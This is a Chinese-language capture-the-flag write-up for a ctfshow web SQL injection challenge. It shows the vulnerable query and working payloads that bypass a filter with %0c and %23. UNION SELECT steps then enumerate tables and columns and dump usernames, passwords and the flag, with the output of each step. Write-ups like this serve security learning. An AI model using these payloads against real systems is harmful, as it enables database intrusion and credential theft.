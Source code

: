 #### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"


查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```



一句话 

```mysql
1'or'1'='1'%23


	
flag{dd46a444-c467-442f-a084-bef9e27eda3f}
```



payload

尝试绕过过滤

##### 替换空格为%0c,替换#为%23

```mysql
//判断注入
1'%0cand%0c1=1%23

//判断字段
1'%0corder%0cby%0c3%23

//判段数据库
1'%0cUnion%0cSelect%0cuser(),database(),version()%23
root@localhost			ctfshow_web			10.3.18-MariaDB

//判断table
1'%0cUnion%0cSelect%0cuser(),table_name,version()%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()%23
root@localhost			ctfshow_user			10.3.18-MariaDB


//判断字段

1'%0cUnion%0cSelect%0cuser(),column_name,version()%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'%23
root@localhost	id					10.3.18-MariaDB
root@localhost	username			10.3.18-MariaDB
root@localhost	password			10.3.18-MariaDB



//判断内容

1'%0cUnion%0cSelect%0cuser(),username,password%0cfrom%0cctfshow_user%23

root@localhost	admin				admin
root@localhost	user1				111
root@localhost	user2				222
root@localhost	userAUTO			passwordAUTO
root@localhost	flag				flag{dd46a444-c467-442f-a084-bef9e27eda3f}
```





